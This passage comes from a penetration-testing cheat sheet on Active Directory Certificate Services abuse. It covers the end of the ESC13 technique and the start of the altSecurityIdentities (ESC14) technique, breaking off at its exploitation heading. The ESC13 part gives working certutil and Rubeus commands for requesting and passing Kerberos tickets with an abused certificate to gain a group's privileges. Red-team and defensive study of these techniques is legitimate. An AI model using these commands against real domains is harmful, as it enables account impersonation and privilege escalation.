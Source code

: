   ```ps1
  certutil -MergePFX .\esc13.pem .\esc13.pfx
  ```

* Verify the presence of the "Client Authentication" and the "Policy Identifier"

  ```ps1
  certutil -Dump -v .\esc13.pfx
  ```

* Pass-The-Certificate: Ask a TGT for our user, but we are also member of the linked group and inherited their privileges

  ```ps1
  Rubeus.exe asktgt /user:ESC13User /certificate:C:\esc13.pfx /nowrap
  Rubeus.exe asktgt /user:username /certificate:username.pfx /domain:lab.local /dc:dc /nowrap
  ```

* Pass-The-Ticket: Use the ticket that grant privileges from the AD group

  ```ps1
  Rubeus.exe ptt /ticket:<ticket>
  ```

## ESC14 - altSecurityIdentities

> ESC14 is an Active Directory Certificate Services (ADCS) abuse technique that leverages the altSecurityIdentities attribute to perform explicit certificate mappings. This attribute allows administrators to associate specific certificates with user or computer accounts for authentication purposes. However, if an attacker gains write access to this attribute, they can add a mapping to a certificate they control, effectively impersonating the targeted account.

Domain administrators can manually associate certificates with a user in Active Directory by configuring the altSecurityIdentities attribute of the user object. This attribute supports six different values, categorized into three weak (insecure) mappings and three strong mappings.

In general, a mapping is considered strong if it relies on unique, non-reusable identifiers. Conversely, mappings based on usernames or email addresses are classified as weak, as these identifiers can be easily reused or changed.

| Mapping                | Example                            | Type   | Remarks       |
| ---------------------- | ---------------------------------- | ------ | ------------- |
| X509IssuerSubject      | `X509:<I>IssuerName<S>SubjectName` | Weak   | /             |
| X509SubjectOnly        | `X509:<S>SubjectName`              | Weak   | /             |
| X509RFC822             | `X509:<RFC822>user@contoso.com`    | Weak   | Email Address |
| X509IssuerSerialNumber | `X509:<I>IssuerName<SR>1234567890` | Strong | Recommended   |
| X509SKI                | `X509:<SKI>123456789abcdef`        | Strong | /             |
| X509SHA1PublicKey      | `X509:<SHA1-PUKEY>123456789abcdef` | Strong | /             |

**Requirements**:

* Ability to modify the attribute `altSecurityIdentitites` of an account.

**Exploitation**:
